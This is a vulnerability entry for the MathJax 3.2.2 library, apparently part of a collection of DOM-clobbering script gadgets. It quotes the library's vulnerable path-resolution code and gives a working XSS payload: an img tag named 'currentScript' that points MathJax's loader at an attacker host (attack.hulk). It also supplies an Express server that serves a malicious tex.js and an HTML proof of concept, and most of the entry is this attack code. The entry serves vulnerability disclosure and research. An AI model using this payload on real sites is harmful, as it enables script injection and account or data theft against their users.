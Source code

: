 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://attack.hulk"></img> $$\require{tex}$$```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js
https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `attack.hulk` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1

```html
<!--Library-->
<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>
$$\require{tex}$$
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999"></img>
<!--Payload-->
```